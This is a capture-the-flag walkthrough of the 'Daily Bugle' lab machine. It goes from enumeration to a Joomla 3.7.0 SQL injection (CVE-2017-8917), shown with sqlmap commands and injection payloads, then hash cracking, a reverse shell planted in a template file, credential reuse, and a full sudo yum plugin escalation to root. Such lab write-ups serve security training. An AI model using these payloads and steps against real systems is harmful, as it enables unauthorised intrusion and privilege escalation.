 ```yaml
---
sticker: emoji//1f577-fe0f
---
```


# DAILY BUGLE

## ENUMERATION

***

### OPEN PORTS

***

| PORT | STATE | SERVICE |
| ---- | ----- | ------- |
| 22   | open  | ssh     |
| 80   | open  | http    |
| 3306 | open  | mysql   |

We got 3 open ports, let's take a look at the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121165122.png)

Seems like a simple website, let's try to fuzz in order to find anything, if not, I think that login part is interesting and we could go back to check any vulnerability in it

### FUZZING

***

![](gitbook/cybersecurity/images/Pasted%20image%2020241121165255.png)

We found a lot of directories, let's take a look at `/administrator`

![](gitbook/cybersecurity/images/Pasted%20image%2020241121170507.png)

Got a login page for admin in this, if we look around the page source, we are able to identify this is `Joomla 3.7.0`

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020241121170613.png) Searching up for an exploit related to this version, we find this, a \[\[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQL Injection]] vulnerability, let's take a look at the exploit itself:

```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
    
```

We can either use sqlmap or an exploit developed in python, I used the exploit as it is way more easier to retrieve the data:

```ad-hint

#### Exploit 

[exploit](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
)

##### Output
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121171916.png)

We got the user `jonah` and a password in a hash formato, let's crack that hash using `john`

hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`


#### John
----

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121174205.png)

got password `spiderman123`


```

![](gitbook/cybersecurity/images/Pasted%20image%2020241121175307.png)

We are inside the panel, let's begin with exploitation to get our reverse shell

## EXPLOITATION

***

Once we are inside the panel, if we go to templates, we see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121175454.png)

If we dig up further, we notice we are able to modify the `index.php` in order to put a reverse shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121175549.png)

Put the reverse shell, set up listener, refresh the page and get the shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121180244.png)

Once we got our shell, let's \[\[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] it and try to get anything useful:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121180409.png)

We have now an stable shell, let's take a look at how many users are in this machine:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121180459.png)

Two users, `jjameson` and `root`, we need some sort of way to get jameson's password to switch into that user, if we take a look at previous pictures, we have a `configuration.php` file, let's `cat` on it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121180633.png)

Nice, we found the password, let's switch users:

```ad-note

#### Credentials
---

`jjameson` : `nv5uz9r3ZEDzVjNu` 
```

![](gitbook/cybersecurity/images/Pasted%20image%2020241121180958.png)

Nice, we were able to switch users. Let's proceed with privilege escalation

## PRIVILEGE ESCALATION

***

### SUDO -L

If we use `sudo -l` on `jjameson`, we get the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121181128.png)

We are able to run sudo in `/usr/bin/yum`, if we check what [GTFOBINS](https://gtfobins.github.io/) have for us, we get this:

![](gitbook/cybersecurity/images/Pasted%20image%2020241121181231.png)

So, in order to get a root shell, we need to do the following:

```ad-summary

1. `TF=$(mktemp -d)`
2. `cat >$TF/x<<EOF`
3. `[main]`
4. `plugins=1`
5. `pluginpath=$TF`
6. `pluginconfpath=$TF`
7. `EOF`
8. `cat >$TF/y.conf<<EOF`
9. `[main]`
10. `enabled=1`
11. `EOF`
12. `cat >$TF/y.py<<EOF`
13. `import os`
14. `import yum`
15. `from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE`
16. `requires_api_version='2.1'`
17. `def init_hook(conduit):`
18. `  os.execl('/bin/sh','/bin/sh')`
19. `EOF`
20. `sudo yum -c $TF/x --enableplugin=y`

#### PoC
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121181849.png)

Got a shell as root and like that, CTF is over.

```
